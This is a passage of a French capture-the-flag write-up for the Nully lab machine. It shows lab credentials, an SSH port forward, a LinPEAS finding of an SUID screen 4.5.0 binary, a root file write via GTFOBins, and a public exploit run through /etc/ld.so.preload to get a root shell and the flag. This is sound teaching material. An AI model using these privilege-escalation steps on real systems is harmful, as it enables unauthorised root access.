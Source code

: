 Dans le fichier `creds.txt` extrait on trouve des identifiants :

`donald:HBRLoCZ0b9NEgh8vsECS`

Je forwarde le port de cette nouvelle machine :

```bash
ssh -p 2222 -N -L 22222:172.17.0.3:22 bob@192.168.56.67
```

`LinPEAS` y trouve un fichier binaire setuid inhabituel :

`-rwsr-xr-x 1 root root 1.8M Aug 27  2020 /usr/bin/screen-4.5.0 (Unknown SUID binary)`

Il y a un [GTFObin concernant screen](https://gtfobins.github.io/gtfobins/screen/) :

```bash
donald@DatabaseServer:~$ /usr/bin/screen-4.5.0 -D -m -L /etc/zozo echo -ne  "This is dope"
donald@DatabaseServer:~$ cat /etc/zozo
This is dopedonald@DatabaseServer:~$ ls -al /etc/zozo
-rw-rw-r-- 1 root donald 12 Nov 30 07:03 /etc/zozo
```

On peut écrire des fichiers en tant que root mais quand j'ai tenté de rajouter une entrée à `/root/.ssh/authorized_keys` j'ai eu une erreur.

Je me suis tourné vers [GNU Screen 4.5.0 - Local Privilege Escalation](https://www.exploit-db.com/exploits/41154), un code présent sur exploit-db. Il aura uniquement fallu modifier le path pour screen. Heureusement `gcc` était présent sur le système sans quoi ça aurait été plus laborieux (le script contient du code C qu'il compile à la volée) :

```bash

donald@DatabaseServer:~$ ./screen_exploit.sh
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
There is a screen on:
        9728.pts-1.DatabaseServer       (Attached)
1 Socket in /tmp/screens/S-donald.
# id
uid=0(root) gid=0(root) groups=0(root),1000(donald)
# cd /root
# ls
3_flag.txt
# cat 3_flag.txt

    _  _   _____             _           _ _ 
  _| || |_|  __ \           | |         | | |
 |_  __  _| |__) |___   ___ | |_ ___  __| | |
  _| || |_|  _  // _ \ / _ \| __/ _ \/ _` | |
 |_  __  _| | \ \ (_) | (_) | ||  __/ (_| |_|
   |_||_| |_|  \_\___/ \___/ \__\___|\__,_(_)

   6cb25d4789cdd7fa1624e6356e0d825b                                            

Congratulations on getting the final flag! 
You completed the Nully Cybersecurity CTF.
I will be glad if you leave a feedback. 


Twitter https://twitter.com/laf3r_
Discord laf3r#4754
```
